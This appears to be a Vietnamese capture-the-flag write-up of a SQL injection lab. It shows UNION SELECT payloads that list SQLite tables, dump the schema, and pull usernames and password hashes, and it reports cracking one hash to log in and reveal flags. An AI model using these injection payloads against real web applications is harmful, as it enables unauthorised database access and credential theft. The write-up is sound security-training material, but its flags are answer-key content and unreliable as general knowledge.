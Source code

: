 <img width="748" height="141" alt="image" src="https://github.com/user-attachments/assets/86edad5d-eee7-456a-9128-9b3cdd45b881" />

= Trích xuất các tên bảng trong cột thứ 3:

```
http://103.97.125.56:30922/?action=status&type=version%22%20UNION%20SELECT%201,2,group_concat(tbl_name)%20FROM%20sqlite_master%20WHERE%20type=%27table%27%20and%20tbl_name%20NOT%20like%20%27sqlite_%%27--%20-
```

= Kết quả hiển thị có 2 bảng là `users` và `configurations`:

<img width="780" height="191" alt="image" src="https://github.com/user-attachments/assets/e51763da-6406-45ba-87ae-0db25e1f9eef" />

= Đọc writeup người anh em Tùng Núi, thì thấy họ dùng payload này:

```
vlxx" union select 1,2,sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='table_name'--
```

= Với bảng `configurations`:
<img width="941" height="213" alt="image" src="https://github.com/user-attachments/assets/6ec038cc-272f-4860-9f53-60dfb587645a" />

= Với bảng `users`:
<img width="936" height="195" alt="image" src="https://github.com/user-attachments/assets/4dda0d81-0e89-4661-ba12-0938d62c60c1" />

=> Thấy bảng users có trường `username` và `password` nên tập trung vào bảng users

= Lấy username và password:

<img width="1471" height="155" alt="image" src="https://github.com/user-attachments/assets/ddb57ec1-49c9-40d2-bda1-8f31e20bee8c" />

=> username là 'jonathan', password là `1ff61e91349d3f6623a81ccd3d881fa1` và username `cookie`  `97c2bd1615963162bd4e0caca037ba9e` garfield

= Nhưng mà đăng nhập không được, lấy thử dữ liệu bảng `configurations` gồm name và content

<img width="1520" height="188" alt="image" src="https://github.com/user-attachments/assets/a1150c62-60ca-4733-9da1-cb567e542e2d" />

=> Ra Flag:

`CHH{BA5ic_5qL_iNj3CtiON}`

***Flag2: Sau khi truy cập vào cơ sở dữ liệu. Hãy tìm mật khẩu của cookie ở dạng hash. Thực hiện crack và đăng nhập bạn sẽ có FLAG số 2***

= Vừa tìm được giá trị cookie ở trên :v 

= Crack thì ra cả username và password đều là `garfield`:
<img width="1492" height="405" alt="image" src="https://github.com/user-attachments/assets/3429d0cb-3e30-4a49-b0d0-8955c0c901de" />

= Đăng nhập thành công. Ảo vãi mình nhận ra mình crack sai cái hash:
<img width="1329" height="498" alt="image" src="https://github.com/user-attachments/assets/c7fd1586-3768-4652-8cf7-1ab8a45bd4e5" />

= Phải stop lab làm lại thì mình đã thu được flag:
<img width="1454" height="865" alt="image" src="https://github.com/user-attachments/assets/4600003b-b650-4488-a7df-c87d862171ec" />
